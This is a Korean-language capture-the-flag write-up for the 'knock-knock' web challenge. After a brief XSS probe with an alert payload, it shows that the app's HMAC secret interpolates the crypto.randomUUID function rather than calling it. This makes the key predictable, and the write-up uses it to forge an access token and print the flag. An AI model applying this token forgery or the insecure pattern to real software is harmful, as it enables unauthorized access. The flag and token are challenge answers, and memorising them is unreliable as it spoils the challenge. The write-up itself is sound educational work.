 # web/knock-knock

# Write-up

## XSS?

![스크린샷 2022-02-07 오전 12.53.10.png](web%20knock-knock%209cc3bf6db3924573a81f230880f34df2/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2022-02-07_%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB_12.53.10.png)

처음 소스코드와 이 화면을 보았을 시, 먼저 XSS공격을 떠올릴 수 있다.

그래서 다음과 같은 코드를 시도해보았다.

```jsx
<script>alert(1)</script>
```

해당 코드를 적은 후, Create 버튼을 눌러 넣었고, 정상대로 alert가 작동이 되는 걸 확인할 수 있다.

그러나, 해당 코드를 자세히 보았을때, 클라이언트에서 token 및 env 변수를 탈취할 수 없다는 점에서 

XSS공격은 아니라는 말이 된다.

## 본 풀이

이번 문제는 코드를 잘 보고, crypto의 함수에 대한 대략적 파악이 중요하다.

id는 생성당시에 바로 만들어지기에, 0이 가장 확실하며, 이에 대한 token이 있어야 해당 포스트에 접근할 수 있는 구조이다.

그렇다면, token을 만드는 코드를 다시 중점적으로 보자.

```jsx
constructor() {
  this.notes = [];
  this.secret = `secret-${crypto.randomUUID}`;
}
```

```jsx
generateToken(id) {
  return crypto
    .createHmac('sha256', this.secret)
    .update(id.toString())
    .digest('hex');
}
```

constructor내부에서 secret변수에 secret-${crypto.randomUUID}를 저장하고 있다.

그리고 generateToken함수에서 id를 받고 이 id를 sha256으로 암호화하고 있음을 알 수 있다.

그러나 코드를 끝까지 잘보라는 이유가 여기서 나온다.

console을 이용해 crypto.randomUUID를 조회하면 다음과 같이 나온다.

```jsx
function randomUUID() { [native code] }
```

즉, 함수라는 말이다.

그렇다면, secret변수에는 어떻게 저장되어 있는지 다음과 같이 테스트 코드를 작성해 확인해보았다.

```jsx
const crypto = require('crypto');

let secret = `secret-${crypto.randomUUID}`
console.log(`secret-${crypto.randomUUID}`)
```

출력값은 다음과 같다

```
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```

즉, 랜덤한 UUID가 아닌 그져 함수와 함께 묶여져서 나오고 있는 것이다.

그렇다면 이 출력값을 비밀키로 쓰고 있다는 말이므로, 이 비밀키를 이용해서 id인 0을 암호화 해보자

```jsx
const crypto = require('crypto');

let secret = `secret-${crypto.randomUUID}`;
let id = 0

console.log(`secret-${crypto.randomUUID}`)
console.log(crypto.createHmac('sha256', secret).update(id.toString()).digest('hex'))
```

```
7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

이것이 우리가 원하는 token값이다.

그러면 다음과 같은 url에 붙여서 GET해보면 풀린다.

```
/noteid=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
